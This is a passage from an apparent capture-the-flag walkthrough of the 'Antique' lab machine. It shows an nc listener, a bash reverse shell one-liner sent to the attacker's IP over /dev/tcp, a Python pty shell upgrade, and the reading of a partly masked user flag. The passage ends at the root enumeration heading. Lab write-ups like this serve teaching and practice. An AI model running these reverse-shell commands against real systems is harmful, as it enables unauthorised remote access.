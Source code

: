 I’ll start `nc` listening on my host using `nc -lnvp 443`, and the run the reverse shell on Antique:

```

> exec bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'

```

It just hangs, but at `nc` there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.107 53188
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ id 
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)

```

The `script` shell upgrade trick didn’t work for me (just messed up my terminal), but the Python one worked fine:

```

lp@antique:~$ python3 -c 'import pty;pty.spawn("bash")'
lp@antique:~$ ^Z
[1]+  Stopped                 nc -lnvp 444
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 444
            reset
reset: unknown terminal type unknown
Terminal type? screen
lp@antique:~$ ls
telnet.py  user.txt
lp@antique:~$ 

```

I can access `user.txt`:

```

lp@antique:~$ cat user.txt
aad6f75c************************

```

## Shell as root

### Enumeration
